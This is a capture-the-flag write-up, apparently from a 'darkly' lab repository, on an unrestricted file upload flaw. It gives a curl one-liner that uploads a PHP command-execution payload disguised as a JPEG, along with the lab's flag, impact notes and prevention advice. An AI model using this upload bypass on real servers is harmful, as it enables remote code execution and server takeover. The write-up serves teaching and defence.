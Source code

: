 # REMOTE_FILE_INCLUSION_(RFI)

## 🏴 Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## 📌 Extract

Page: [http://{IP}/index.php?page=upload](http://{IP}/index.php?page=upload)  
Inspect this form:

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

This HTML form allows file uploads via a POST request, focus on:  
`<input name="uploaded" type="file">`: File selection field.  
`<input type="submit" name="Upload" value="Upload">`: Upload button.

> Testing injection of a php file

```sh
echo "<?php system('ls'); ?>" | \
curl -F "Upload=Upload" \
-F "uploaded=@-;type=image/jpeg" "http://{IP}/index.php?page=upload" | \
grep "The flag is :"
```

Sends an HTTP POST request to the website's upload page :
- `echo "<?php system('ls'); ?>"` : Create a php script.
- `-F "Upload=Upload"`: Simulates a submit button.
- `-F "uploaded=@-;type=image/jpeg"`:
	- `@-` means the file is taken from standard input (from the previous echo).
	- `type=image/jpeg` attempts to trick the server into believing it's an image.
- `grep "The flag is :”` filters the response.

## 🎯 Use

**Unrestricted File Upload** is a vulnerability where a website allows users to **upload files without properly validating** heir type or content. This can allow an attacker to upload malicious files (such as scripts) and **execute** them on the server.

- **Remote code execution:** Uploading a PHP file or executable script to take control of the server or run commands.  

- **Unauthorized data access:** Malicious files in public directories can be used to steal sensitive data like databases or config files.  

- **Privilege escalation:** Exploiting the vulnerability to gain admin privileges or access restricted server areas.  

- **🎣 Phishing or redirection attacks:** Malicious files executed in the user's browser can redirect them to malicious sites or steal sensitive information.

## 🔒 Prevention

1. **Strict file validation:** Allow only safe file types (e.g., images, documents) and reject executables (e.g., .php, .exe).  

2. **Rename uploaded files:** Rename uploaded files to random names to block execution.  

3. **File content detection:** Verify file content matches its type (e.g., ensure .jpg is an image, not a script).  

4. **Disable execution:** Prevent execution in upload directories (e.g., use .htaccess or similar settings).  

5. **Limit permissions:** Set read/write-only permissions, not execute.  

6. **Security tools:** Use antivirus or file scanners.

## 📚 Documentation

[wikipedia.org (Remote_File_Inclusion)](https://fr.wikipedia.org/wiki/Remote_File_Inclusion)  
[vaadata.com (exploitation-dune-faille-lfi)](https://www.vaadata.com/blog/fr/exploitation-dune-faille-lfi-local-file-inclusion-et-bonnes-pratiques-securite/)  
[chocapikk.com (faille_upload)](https://chocapikk.com/posts/2023/faille_upload/)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#README)

